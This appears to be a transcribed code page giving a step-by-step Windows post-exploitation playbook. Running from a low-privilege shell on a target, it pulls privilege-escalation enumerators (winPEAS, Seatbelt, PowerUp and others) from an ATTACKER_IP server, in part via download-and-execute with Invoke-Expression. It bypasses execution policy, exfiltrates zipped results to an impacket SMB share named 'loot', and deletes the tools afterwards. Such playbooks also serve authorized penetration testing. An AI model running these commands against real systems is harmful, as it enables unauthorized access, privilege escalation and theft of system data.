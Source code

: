 ```
python3 -m http.server 8000

# (Optional) Start an SMB share for exfil/retrieval
# Requires impacket
mkdir -p ~/win-enum/share
cp ./* ~/win-enum/share/
impacket-smbserver loot ~/win-enum/share -smb2support
```

On the Windows target (PowerShell, low-priv shell)
```
# 1) Create a working dir (commonly writable)
$wd="$env:ProgramData\enum"; New-Item -ItemType Directory -Path $wd -Force | Out-Null; Set-Location $wd

# Set attacker IP and port (HTTP server)
$att="ATTACKER_IP"; $port=8000

# 2) Quick baseline (native)
whoami /all         > .\whoami.txt
systeminfo          > .\systeminfo.txt
ipconfig /all       > .\ipconfig.txt

# 3) Transfer tools via HTTP (PowerShell)
Invoke-WebRequest -Uri "http://$att:$port/winPEASany.exe" -OutFile .\winPEASany.exe
Invoke-WebRequest -Uri "http://$att:$port/Seatbelt.exe"   -OutFile .\Seatbelt.exe
Invoke-WebRequest -Uri "http://$att:$port/SharpUp.exe"    -OutFile .\SharpUp.exe

# 4) Run automated enumerators (redirect output to files)
.\winPEASany.exe                         > .\winpeas.txt
.\Seatbelt.exe -group=all                > .\seatbelt.txt
.\SharpUp.exe audit                      > .\sharpup.txt

# 5) PowerShell-based checks (bypass execution policy only for this process)
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force

# PowerUp
$pu=(Invoke-WebRequest -Uri "http://$att:$port/PowerUp.ps1").Content
Invoke-Expression $pu
Invoke-AllChecks                              > .\powerup.txt  2>&1

# PrivescCheck (basic; add -Extended for deeper checks)
$pc=(Invoke-WebRequest -Uri "http://$att:$port/PrivescCheck.ps1").Content
Invoke-Expression $pc
Invoke-PrivescCheck                           > .\privesccheck.txt 2>&1

# (Optional) JAWS with output file
Invoke-WebRequest -Uri "http://$att:$port/jaws-enum.ps1" -OutFile .\jaws-enum.ps1
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename .\jaws.txt

# 6) Zip results for exfil
Compress-Archive -Path *.txt -DestinationPath .\enum-results.zip -Force

# 7) Exfil option A: copy to attacker SMB share (if impacket-smbserver loot is running)
Copy-Item .\enum-results.zip "\\$att\loot\enum-results.zip"

# 7) Exfil option B: Start a quick HTTP server on target and pull from attacker
# (If Python present on target)
# python -m http.server 8081
# Then pull http://TARGET_IP:8081/enum-results.zip from your attacker

# 8) Cleanup (after verification that exfil succeeded)
Remove-Item .\winPEASany.exe,.\Seatbelt.exe,.\SharpUp.exe,.\jaws-enum.ps1 -Force -ErrorAction SilentlyContinue
```